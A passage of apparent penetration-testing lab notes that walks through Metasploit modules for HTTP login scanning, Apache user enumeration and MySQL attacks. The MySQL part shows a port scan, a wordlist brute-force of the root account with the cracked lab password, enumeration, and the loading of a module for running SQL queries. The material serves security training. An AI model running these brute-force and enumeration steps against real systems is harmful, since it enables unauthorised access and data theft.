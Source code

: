 - auxiliary/scanner/http/http_login

```shell
use auxiliary/scanner/http/http_login
set RHOSTS <target_IP>
set AUTH_URI /secure/
set VERBOSE false
run
```

- auxiliary/scanner/http/apache_userdir_enum

```shell
use auxiliary/scanner/http/apache_userdir_enum
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set RHOSTS <target_IP>
set VERBOSE false
run
```

### 2.5. MySQL Enumeration

MySQL is an open-source relational database management system (RDBMS). It is one of the most widely used database systems in the world and is commonly used in web applications and is a central component of the LAMP stack (Linux, Apache, MySQL, PHP/Python/Perl). The default port for MySQL server is 3306. This port is used for client-server communication in MySQL database management systems.

**Objective**: Your task is to run the following auxiliary modules against the target.

```shell
workspace -a MySQL_ENUM
search portscan tcp
use auxiliary/scanner/portscan/tcp
setg RHOSTS <target_IP>
show options
run
# Port 3306 is open
```

Using of modules:

```shell
use auxiliary/scanner/mysql/mysql_version
show options
run

use auxiliary/scanner/mysql/mysql_login
show options
# We know that the 'root' user has the highest privileges
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
# Credential found: Success: 'root:twinkle'

use auxiliary/admin/mysql/mysql_enum
info
set PASSWORD twinkle
set USERNAME root
run

# The next module is arguably one of the most important when it comes to MySQL enumeration using the Metasploit framework.
search mysql_sql
# As we can see, this module falls under the admin subdirectory within the auxiliary module, which means we need credentials to run it.
use auxiliary/admin/mysql/mysql_sql
# This module allows us to execute SQL queries. 
```